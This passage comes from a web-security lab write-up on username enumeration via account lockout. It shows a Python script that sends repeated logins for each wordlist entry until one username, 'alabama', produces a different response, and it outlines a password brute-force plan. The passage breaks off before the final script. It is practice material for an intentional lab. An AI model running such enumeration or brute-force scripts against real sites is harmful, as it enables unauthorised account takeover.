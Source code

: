```python
			wiener_r = s.post(url + '/login', proxies=proxies, data=wiener_data, verify=False)
			wiener_r = s.get(url + '/logout', proxies=proxies, verify=False)
			state = 0
```

## Lab 7: Username Enumeration via Account Lock

This lab has account locking, but contains a logic flaw. To solve the lab, login as the valid user. 

Based on the lab hint, I expected that brute force attempts would eventually block my account, but that was not the case with the random usernames I was using.

My guess was that repeated attempts **with the valid username** would result in me getting blocked.

As such, I created a script to send 5 requests per username, and check whether the response contained the `Invalid username or password` error. 

```python
users = open('users.txt', 'r')
for u in users:
	for i in range(6):
		data = {
			'username':u.strip(),
			'password':'test'
		}
		r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
		if 'Invalid username or password' not in r.text:
			print(f'[+] Different response observed for {u}')
			sys.exit(0)
```

This would return a different response for the `alabama` user:

```
$ python3 lab8.py
[+] Different response observed for alabama
```

When checking the response, I saw that it displayed the account lockout error:

![](../../.gitbook/assets/portswigger-auth-writeup-image-25.png)

Now, time to brute force the password. While I could make the script sleep for 61s after encountering account lockout, that would take too long. Instead, I tried to brute force the password by checking whether the `Invalid username` and `You have many too many incorrect login attempts` errors were present.

This worked! Here's the final script to solve the lab:
